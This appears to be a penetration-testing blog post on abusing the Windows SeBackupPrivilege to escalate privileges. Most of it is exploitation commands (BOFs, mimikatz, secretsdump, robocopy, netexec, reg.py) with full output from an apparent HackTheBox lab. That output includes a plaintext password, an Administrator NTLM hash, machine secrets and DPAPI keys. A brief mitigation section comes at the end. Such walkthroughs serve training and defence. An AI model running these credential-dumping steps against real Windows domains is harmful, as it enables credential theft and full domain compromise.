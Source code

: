 ```yaml
---
title: Windows Privileges Escalation - SeBackupPrivilege
date: 2025-05-07 05:00:00 +/-TTTT
categories: [Privileges Escalation]
tags: [SeBackupPrivilege]     # TAG names should always be lowercase
image : /assets/images/Se.gif
---
```



According to [Microsoft docs](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#backup-operators), this group:

> Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer. This group can't be renamed, deleted, or removed. By default, this built-in group has no members, and it can perform backup and restore operations on domain controllers. Members of the following groups can modify Backup Operators group membership: default service Administrators, Domain Admins in the domain, and Enterprise Admins. Members of the Backup Operators group can't modify the membership of any administrative groups. Although members of this group can't change server settings or modify the configuration of the directory, they do have the permissions needed to replace files (including OS files) on domain controllers. Because members of this group can replace files on domain controllers, they're considered service administrators.
{: .prompt-tip}

![alt text](../assets/images/enter.png)

## Enumeration

### ➜  with whoami bof
for [bof](https://github.com/trustedsec/CS-Situational-Awareness-BOF/tree/master/SA/whoami)

![alt text](../assets/images/sebackup1.png)

### ➜  with Seatbelt

for [Seatbelt](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/Seatbelt.exe)

![alt text](../assets/images/sebackup2.png)

### ➜  with domain Groups
we can execute:
```sh
shell net user username /domain
```
![alt text](../assets/images/sebackup7.png)

and also if we have Bloodhound data we can also check with.

![alt text](../assets/images/sebackup9.png)

Now we are pretty sure for way so we can abuse.

## Exploitation

### ➜  with BackupPrivSam bof

For dump SAM,SYSTEM,SECURITY files im always using this [bof](https://github.com/m57/cobaltstrike_bofs)

➜ usage
```sh
BackupPrivSAM [\\computername] [save path] (optional: [domain] [username] [password])
```
![alt text](../assets/images/sebackup3.png)

so if we have SAM and SYSTEM files now mimikatz can extract and crack hashes from the SAM, SYSTEM, and SECURITY files on a Windows machine. Lets use [mimikatz](https://github.com/ParrotSec/mimikatz) for grab administrator hash
```sh
mimikatz privilege::debug; lsadump::sam /system:"C:\SYSTEM" /sam:"C:\SAM"
```
![alt text](../assets/images/sebackup8.png)

Also we can use secretsdump.py for extract hashes after install them localy.

Lets verify it.
![alt text](../assets/images/sebackup4.png)

Download them and use secretsdump
```sh
secretsdump.py -sam SAM -security SECURITY -system SYSTEM local
```
![alt text](../assets/images/sebackup6.png)


### ➜  For quick win at CTFs
while u playing ctfs or just wanna read some files at Administrator privileges u can use
```sh
powerpick robocopy /b C:\Users\Administrator\Desktop .; cat root.txt
```
![alt text](../assets/images/sebackup5.png)


## Linux Abuse
Since netexec is more popular nowadays and really stronger there is also backup_operator modules we can use directly.

### ➜ netexec backup_operator modules
```sh
➜  nxc smb 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -M backup_operator
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt
BACKUP_O... 10.10.11.35     445    CICADA-DC        [*] Triggering RemoteRegistry to start through named pipe...
BACKUP_O... 10.10.11.35     445    CICADA-DC        Saved HKLM\SAM to \\10.10.11.35\SYSVOL\SAM
BACKUP_O... 10.10.11.35     445    CICADA-DC        Saved HKLM\SYSTEM to \\10.10.11.35\SYSVOL\SYSTEM
BACKUP_O... 10.10.11.35     445    CICADA-DC        Saved HKLM\SECURITY to \\10.10.11.35\SYSVOL\SECURITY
SMB         10.10.11.35     445    CICADA-DC        [*] Copying "SAM" to "/root/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SAM"
SMB         10.10.11.35     445    CICADA-DC        [+] File "SAM" was downloaded to "/root/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SAM"
SMB         10.10.11.35     445    CICADA-DC        [*] Copying "SECURITY" to "/root.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SECURITY"
SMB         10.10.11.35     445    CICADA-DC        [+] File "SECURITY" was downloaded to "/root/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SECURITY"
SMB         10.10.11.35     445    CICADA-DC        [*] Copying "SYSTEM" to "/root/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SYSTEM"
SMB         10.10.11.35     445    CICADA-DC        [+] File "SYSTEM" was downloaded to "/root/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SYSTEM"
BACKUP_O... 10.10.11.35     445    CICADA-DC        Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
BACKUP_O... 10.10.11.35     445    CICADA-DC        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BACKUP_O... 10.10.11.35     445    CICADA-DC        DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BACKUP_O... 10.10.11.35     445    CICADA-DC        $MACHINE.ACC:plain_password_hex:6209748a5ab74c44bd98fc5015b6646467841a634c4a1b2d6733289c33f76fc6427f7ccd8f6d978a79eec3ae49eb8c0b5b14e193ec484ea1152e8a04e01a3403b3111c0373d126a566660a7dd083aec1921d53a82bc5129408627ae5be5e945ed58cfb77a2a50e9ffe7e6a4531febd965181e528815d264885921118fb7a74eff51306dbffa4d6a0c995be5c35063576fc4a3eba39d0168d4601da0a0c12748ae870ff36d7fb044649032f550f04c017f6d94675b3517d06450561c71ddf8734100898bf2c19359c69d1070977f070e3b8180210a92488534726005588c0f269a7e182c3c04b96f7b5bc4af488e128f8
BACKUP_O... 10.10.11.35     445    CICADA-DC        $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:188c2f3cb7592e18d1eae37991dee696
BACKUP_O... 10.10.11.35     445    CICADA-DC        dpapi_machinekey:0x0e3d4a419282c47327eb03989632b3bef8998f71
dpapi_userkey:0x4bb80d985193ae360a4d97f3ca06350b02549fbb
BACKUP_O... 10.10.11.35     445    CICADA-DC        NL$KM:cc1501f764391e7a5e538cc174e62b01369b50b8d07223d9b6c56e922f5708d81eba8e8123250327364c19b496cd251f8ff97f5d71e66e8cffcbeb5e4ea4e696
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Administrator:2b87e7c93a3e8a0ea4a581937016f341 (Pwn3d!)
BACKUP_O... 10.10.11.35     445    CICADA-DC        [*] Dumping NTDS...
SMB         10.10.11.35     445    CICADA-DC        [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.11.35     445    CICADA-DC        [-] Could not connect: timed out
BACKUP_O... 10.10.11.35     445    CICADA-DC        [*] Cleaning dump with user Administrator and hash 2b87e7c93a3e8a0ea4a581937016f341 on domain cicada.htb
BACKUP_O... 10.10.11.35     445    CICADA-DC        [*] Successfully deleted dump files !
```
yeah its work fine but lets analyze this module!!!
### ➜ Analyze backup_operator.py
U can find [backup_operator.py](https://github.com/nikaiw/NetExec/blob/main/nxc/modules/backup_operator.py) here and we can analyze how its actually work.

![alt text](../assets/images/sebackup10.png)

### With reg.py

its actually different version of
https://x.com/mpgn_x64/status/1878899208465600756

![alt text](../assets/images/sebackup11.png)


```sh
➜  SeBackupPrivilege reg.py 'cicada.htb/emily.oscars:Q!3@Lp#M6b*7t*Vt'@10.10.11.35 backup -o 'C:\windows\temp\'
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to C:\windows\temp\\SAM.save
[*] Saved HKLM\SYSTEM to C:\windows\temp\\SYSTEM.save
[*] Saved HKLM\SECURITY to C:\windows\temp\\SECURITY.save
```

Okey nice! We have enough information about this topic now time to for the curious

## Mitigation: Removing SeBackupPrivilege from a User
To reduce risk, it's important to revoke SeBackupPrivilege from any non-essential users. Here’s how to do it:

>Press Win + R, type secpol.msc, and press Enter to open the Local Security Policy editor.

>In the left pane, navigate to: Local Policies → User Rights Assignment

>On the right side, locate the policy named: Back up files and directories (this corresponds to SeBackupPrivilege)

>Double-click the policy to open its properties. In the dialog that appears, select any users or groups you want to remove, then click Remove.

>Click Apply, then OK to confirm the changes.

By revoking this privilege, you significantly limit a user's ability to access protected system files and reduce lateral movement or privilege escalation risks.


